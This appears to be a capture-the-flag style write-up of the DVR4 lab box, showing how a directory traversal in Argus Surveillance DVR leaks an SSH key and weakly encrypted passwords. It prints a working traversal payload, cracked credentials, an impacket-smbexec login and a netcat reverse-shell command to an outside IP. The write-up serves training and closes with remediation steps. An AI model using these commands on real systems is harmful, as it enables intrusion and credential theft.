 ```yaml
---
layout: writeup
title: DVR4 - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the DVR4 Box from Proving Grounds
image: # /assets/images/DVR4/DVR4.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi]
---
```


This is a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called DVR4, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap scan: 
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


First few ports we notice are 139, 445, and 8080. I tried to get some more information using `rpcclient` and connecting to SMB, but neither worked, so I headed to the browser to check port 8080 and find this:

![DVR1.png](/assets/images/DVR4/DVR1.png){: .responsive-image}

It looks like we have a management portal for a service called `Argus Surveillance`. I click around for a bit to check it out and then search for existing exploits. I notice a few of them, including a [directory traversal exploit on exploit-db]() as well as a [weak encryption exploit on github](https://github.com/s3l33/CVE-2022-25012). The github exploit is interesting because it references the full path of a file which holds the password hash as `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`. It's possible we could combine the two, using the directory traversal exploit to retrieve the hash and the exploit on github to crack it. 

I can get the the directory traversal working using the suggested path: `curl "http://192.168.171.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FProgramData%2FPY_Software%2FArgus%20Surveillance%20DVR%2FDVRParams.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="`. Unfortunately the hash is not shown in the output. 

![DVR2.png](/assets/images/DVR4/DVR2.png){: .responsive-image}

I even tried to create my own user just to see if it showed up, but no luck. 

![DVR3.png](/assets/images/DVR4/DVR3.png){: .responsive-image}

\At least now I know the directory traversal works. The key is just going to be finding something interesting to open. I try a few different things from this [Directory Traversal Cheat Sheet](https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9), but I can't find anything, initially believing that I didn't have a user. But I can actually check `Viewer` per the screenshot above. It may just be an account type, but it could be a user too. Using the path of `Users/Viewer/.ssh/id_rsa`, we can grab the ssh key.

![DVR4.png](/assets/images/DVR4/DVR4.png){: .responsive-image}

I copy this key to my machine, and I am able to log in with it via ssh `ssh -i viewer.id_rsa viewer@$IP`. I log in, look around for a while, and run winpeas. I don't see anything especially interesting, nor do I have any privileges that stand out. I decide to check out `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini` from my ssh shell because the output I received from the directory traversal vulnerability didn't look like what was shown in the exploit POC from exploit-db. That turned out to be pretty useful:

```
...
[Users]
LocalUsersCount=2
UserID0=434499
LoginName0=Administrator
FullName0=60CAAAFEC8753F7EE03B3B76C875EB607359F641D9BDD9BD8998AAFEEB60E03B7359E1D08998CA797359F641418D4D7BC875EB60C8759083E03BB740CA79C875EB603CD97359D9BDF6414D7BB740CA79F6419083
...
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
Description0=60CAAAFEC8753F7EE03B3B76C875EB607359F641D9BDD9BD8998AAFEEB60E03B7359E1D08998CA797359F641418D4D7BC875EB60C8759083E03BB740CA79C875EB603CD97359D9BDF6414D7BB740CA79F6419083
...
```

So we can see the password hash here, and there is an existing exploit on github around the weak encryption. We simply `git clone` the [repository](https://github.com/s3l33/CVE-2022-25012), cd into it, and then run `python3 CVE-2022-25012.py $Hash`. 

![DVR5.png](/assets/images/DVR4/DVR5.png){: .responsive-image}

Because that hash corresponds to the Administrator account, we now have `Administrator:14WatchD0g$` credentials. (Out of curiosity, I checked for the viewer account, and we have `viewer:ImWatchingY0u` as well). Perfect. Now we can try SSHing with Administrator, or any number of other escalations. 

It turns out SSH didn't work, but I was able to run `impacket-smbexec Administrator:"14WatchD0g$"@192.168.224.179`, after putting the password in quotes because it didn't work without. 

![DVR6.png](/assets/images/DVR4/DVR6.png){: .responsive-image}

Now this shell is only semi-interactive. I *can* use it for proof.txt, but in case it feels like cheating, I can also just call a shell with it: `C:\Users\viewer\nc.exe 192.168.45.240 445 -e cmd`. Note that this works because nc.exe is on the machine already, and I saw it when initially enumerating with the viewer user after SSHing in. That is why the full path points to their directory. You could always upload it yourself, though there are obviously a ton of ways to do this once you have the password. 

![DVR7.png](/assets/images/DVR4/DVR7.png){: .responsive-image}

### Lessons Learned
This was a relatively straightforward box. As long as you look up the Argus service and the popular exploits, know where the ssh key could be, go back to check the suggested file from the exploits, and then know how to use the Administrator password (without ssh available), it should be pretty good. 

### Remediation Steps 
1. The service needs to be updated or changed because:
	1. It has the directory traversal vulnerability
	2. It has weak encryption. Simply making the passwords more complex is not enough. 
2. The account running the Argus service shouldn't also be able to SSH into the machine if possible. Maybe this one isn't such a big deal because once you eliminate the directory traversal vulnerability, there isn't the same relationship between the Argus service and SSHing. If you can't access the SSH key through the service, then it doesn't really make a difference which account can use SSH, whether it's the same account running Argus or not. 